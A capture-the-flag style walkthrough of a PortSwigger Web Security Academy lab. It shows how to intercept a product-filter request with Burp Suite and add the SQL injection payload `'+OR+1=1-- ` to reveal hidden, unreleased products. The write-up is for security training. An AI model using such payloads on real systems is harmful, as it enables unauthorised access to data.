


# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data


## Lab Information

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.


## Frontend of the Application


## Gifs Section




## Steps to Reproduce

- Lets intercept the request made to the `Gifs` section using Burpsuite and then try to modify the request using our payload to display items present in this section which we normally would not be able to see.


### Intercepting Request

- Below is the HTTP request made to `Gifs` section.

```http
GET /filter?category=Gifts HTTP/2

Host: 0a5c001403a7876583f5b43b00670049.web-security-academy.net

Cookie: session=KhKJ5baYASPgVRQWVEHWAlzzRyJtStTe

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: https://0a5c001403a7876583f5b43b00670049.web-security-academy.net/

Upgrade-Insecure-Requests: 1

Sec-Fetch-Dest: document

Sec-Fetch-Mode: navigate

Sec-Fetch-Site: same-origin

Priority: u=0, i

Te: trailers
```


### Modification of the HTTP Request

- We need to  modify the `GET /filter?category=Gifts HTTP/2` part of the request.
- Adding the below mentioned payload to launch our SQLi attack.
	- `'+OR+1=1-- `
- After modification your HTTP request must look like `GET /filter?category=Gifts'+OR+1=1-- HTTP/2`


### Sending the modified HTTP Request

- After sending our SQLi payload we get the below result and we can clearly see that this time we are able to view products which weren't there before on the very same page. This indicates our SQLi attack was successful.





